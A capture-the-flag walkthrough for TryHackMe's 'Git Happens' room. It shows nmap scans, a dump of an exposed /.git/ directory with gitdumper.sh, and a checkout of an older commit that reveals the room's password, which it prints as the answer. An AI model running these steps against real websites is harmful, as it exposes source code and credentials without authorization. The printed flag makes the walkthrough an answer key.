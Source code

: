 # Git Happens

## Overview

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Room link: https://tryhackme.com/room/githappens
Difficulty: **Easy**
## Walkthrough

Scanning all ports only shows port 80 is open (HTTP):

```console
$ nmap -p- -T4 VICTIM_IP -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:21 GMT
Nmap scan report for VICTIM_IP
Host is up (0.040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 30.38 seconds
```

Running a full scan against this port confirms it is running Ubuntu with version `1.14.0` of Nginx and finds a Git repository at `/.git/`.

```console
$ nmap -p 80 -A -T4 VICTIM_IP -oN scans/openports.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:22 GMT
Nmap scan report for VICTIM_IP
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   VICTIM_IP:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.9.0.1
2   31.52 ms VICTIM_IP

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Navigating to the website shows a login form:

![GitHappens - LoginForm](/images/githappens_loginform.png)

From our Nmap scan, recall that there is a `/.git/` directory which holds the structure of a GitHub repository:

![GitHappens - .git directory](/images/githappens_git_directory.png)

We can use [gitdumper.sh](https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) from [GitTools](https://github.com/internetwache/GitTools) to dump the Git repository from the site:

```console
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ chmod +x gitdumper.sh
$ ./gitdumper.sh http://VICTIM_IP/.git/ .
```

![GitHappens - gitdumper.sh](/images/githappens_gitdumper.png)

We now have a `.git/` folder downloaded to our attacker machine. With this, we can run `git log` to show the commit logs. From the log, we can see a security change was made to obfuscate the code at commit `e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`.

```console
$ git log
```

![GitHappens - Commit Log](/images/githappens_commitlog.png)

As such, we can run `git checkout` to load the previous commit `395e087334d613d5e423cdf8f7be27196a360459` and view the deobfuscated code.

```console
$ git checkout 395e087334d613d5e423cdf8f7be27196a360459
```

We can view the `index.html` file to view the **Super Secret Password**:

![GitHappens - Admin Credentials](/images/githappens_admin_credentials.png)

-----

1. Find the Super Secret Password.

```
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```